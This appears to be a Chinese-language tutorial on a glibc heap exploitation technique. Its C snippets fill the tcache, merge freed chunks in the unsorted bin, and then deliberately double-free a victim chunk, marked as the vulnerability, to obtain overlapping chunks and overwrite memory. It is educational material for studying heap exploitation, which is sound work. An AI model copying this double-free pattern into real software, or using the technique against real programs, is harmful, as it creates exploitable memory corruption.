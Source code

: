 首先，我们分配了7个chunk来为以后填满tcache做准备：

```c
    intptr_t *x[7];
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
        x[i] = malloc(0x100);
    }
```

然后再准备用于攻击的两个chunk，和隔离的chunk。其中a chunk 是我们将要 double free的chunk，prev chunk 是将用于辅助uaf的chunk。

```c
    intptr_t *prev = malloc(0x100);
    printf("Allocating a chunk for later consolidation: prev @ %p\n", prev);
    intptr_t *a = malloc(0x100);
    printf("Allocating the victim chunk: a @ %p\n", a);
    puts("Allocating a padding to prevent consolidation.\n");
    malloc(0x10);
```

之后，我们再释放掉a chunk  和prev chunk ，由于tachebins 满了，a chunk 和prev chunk 将加入 unsortedbin中。同时由于a chunk 和prev chunk 相邻，a chunk 和prev chunk 将合并成为一个大的chunk 放入 unsortedbin。

```c
    puts("Step 2: free the victim chunk so it will be added to unsorted bin");
    free(a);
    
    puts("Step 3: free the previous chunk and make it consolidate with the victim chunk.");
    free(prev);
```

这时，我们从tachebins中取出一个chunk：

```c
malloc(0x100);
```

这样我们tachebins中就只有6个 chunk了，这时我们再free a chunk。由于tachebins未满，所以我们的a chunk将会加入tachebins中。

```c
    malloc(0x100);
    /*VULNERABILITY*/
    free(a);// a is already freed
    /*VULNERABILITY*/

    puts("Now we have the chunk overlapping primitive:");
    int prev_size = prev[-1] & 0xff0;
    int a_size = a[-1] & 0xff0;
    printf("prev @ %p, size: %#x, end @ %p\n", prev, prev_size, (void *)prev+prev_size);
    printf("victim @ %p, size: %#x, end @ %p\n", a, a_size, (void *)a+a_size);
    a = malloc(0x100);
    memset(a, 0, 0x100);
    prev[0x110/sizeof(intptr_t)] = 0x41414141;
    assert(a[0] == 0x41414141);
```

![image-20220615102654063](image-20220615102654063.png)
